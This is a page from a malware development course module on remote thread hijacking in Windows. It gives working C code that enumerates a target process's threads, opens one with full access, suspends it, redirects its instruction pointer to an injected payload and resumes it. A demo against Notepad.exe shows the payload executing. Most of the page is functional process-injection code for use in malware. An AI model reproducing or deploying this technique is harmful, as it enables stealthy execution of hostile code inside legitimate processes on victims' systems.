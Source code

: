 38. Thread Hijacking - Remote Thread Enumeration[**38. Thread Hijacking - Remote Thread Enumeration**](https://maldevacademy.com/modules/38)
============================================================================================

**Thread Hijacking - Remote Thread Enumeration**
------------------------------------------------

### **Introduction**

This module covers the usage of `CreateToolhelp32Snapshot` to enumerate threads of a remote process. Minor changes are made to the `GetLocalThreadHandle` function, shown in the previous module, to make it work against remote threads.

The logic remains the same where `CreateToolhelp32Snapshot`, `Thread32First` and `Thread32Next` are used to enumerate the target process's threads. The difference when targeting remote processes is that the main thread is a valid target for hijacking.

### **Remote Thread Enumeration Function**

`GetRemoteThreadhandle` will enumerate threads of a remote process. It takes 3 arguments:

* `dwProcessId` - This is the PID of the target process.
* `dwThreadId` - A pointer to a DWORD that will receive the target process's thread ID.
* `hThread` - A pointer to a HANDLE that will receive the handle to the remote thread.

One additional difference in the implementation of the `GetRemoteThreadhandle` function is that the target PID needs to be supplied. When targeting the local process that was not necessary because the `GetCurrentProcessId` WinAPI retrieved the local process's PID.


```
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {

	HANDLE         hSnapShot  = NULL;
	THREADENTRY32  Thr        = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		if (Thr.th32OwnerProcessID == dwProcessId){

			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}

```
### **Remote Thread Hijacking Function**

This part is similar to the hijack function seen in previous modules. Retrieve the remote process handle, inject the payload to the remote process and finally hijack the thread.


```
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {

	CONTEXT ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};

	// Suspend the thread
	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}


```
### **Demo**

Getting the target process's PID. In this case, the target process is `Notepad.exe`.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-109196659-5f5a1b94-3074-4774-8271-03a07b5f2c04.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-109196659-5f5a1b94-3074-4774-8271-03a07b5f2c04.png)Inject the payload and hijack thread ID `7136`. The thread stack shows that the address of the payload is the next job to be executed.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-209196664-c43d380c-79ab-48c1-97c9-396c3c2b7c4d.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-209196664-c43d380c-79ab-48c1-97c9-396c3c2b7c4d.png)Finally, the payload is executed.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-309196669-ebbdc23d-e0c2-436c-ac73-70f18c971c3b.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-309196669-ebbdc23d-e0c2-436c-ac73-70f18c971c3b.png)